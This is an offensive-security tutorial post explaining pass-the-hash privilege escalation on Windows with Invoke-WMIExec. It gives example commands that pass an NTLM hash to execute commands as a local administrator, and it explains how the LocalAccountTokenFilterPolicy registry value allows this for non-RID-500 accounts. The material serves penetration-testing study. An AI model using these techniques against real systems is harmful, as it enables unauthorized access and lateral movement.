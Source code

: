 ```yaml
---
layout: post
title: "pass the hash privilege escalation with invoke wmiexec"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /pass-the-hash-privilege-escalation-with-invoke-wmiexec/
---
```


---
layout: post
title: "pass the hash privilege escalation with invoke wmiexec"
date: 2024-06-18
categories: privilege-escalation
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /pass-the-hash-privilege-escalation-with-invoke-wmiexec/
---

# Pass The Hash: Privilege Escalation with Invoke-WMIExec

## Execution

If you have an NTLMv2 hash of a local administrator on a box ws01, it's possible to pass that hash and execute code with privileges of that local administrator account:

```csharp
Invoke-WmiExec -target ws01 -hash 32ed87bd5fdc5e9cba88547376818d4 -username administrator -command hostname
```

Below shows how the user `low` is not a local admin, passes the hash of the local `administrator` account on ws01 and executes a command successfully:

![](<../../.gitbook/assets/image (167).png>)

## RID != 500 - No Pass The Hash for You

Say you have a hash of the user spotless who you know is a local admin on ws01:

![](<../../.gitbook/assets/image (175).png>)

...but when you attempt passing the hash, you get access denied - why is that?

![](<../../.gitbook/assets/image (174).png>)

It may be because hashes for accounts that are not RID=500 (not default administrator accounts) are stripped of some privileges during the token creation.

![](<../../.gitbook/assets/image (172).png>)

![](<../../.gitbook/assets/image (171).png>)

If the target system you are passing the hash to, has the following registry key/value/data set to 0x1, pass the hash will work even for accounts that are not RID 500:

```
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy
```

![](<../../.gitbook/assets/image (166).png>)

```csharp
Invoke-WmiExec -target ws01 -hash 32ed87bd5fdc5e9cba88547376818d4 -username spotless -command hostname
```

![](<../../.gitbook/assets/image (168).png>)

## References

{% embed url="https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/" %}
@spotheplanet
